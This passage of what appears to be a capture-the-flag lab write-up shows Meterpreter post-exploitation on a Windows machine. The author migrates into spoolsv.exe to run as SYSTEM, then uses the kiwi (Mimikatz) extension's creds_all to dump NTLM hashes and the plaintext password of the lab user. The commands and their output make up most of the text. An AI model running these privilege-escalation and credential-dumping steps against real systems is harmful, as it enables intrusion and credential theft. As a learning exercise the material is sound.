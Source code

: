 ```bash
meterpreter > ps
 1256  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
meterpreter > migrate 1256

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
***We now have escalated the super user privileges.***

### Looting Credentials

Loading the `kiwi` extension into the meterpreter, lets extract the passwords of the victim with the option `creds_all`.

```bash
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)

```
We have successfully extracted the available credentials and the user `Dark` password is `Password01!`.  

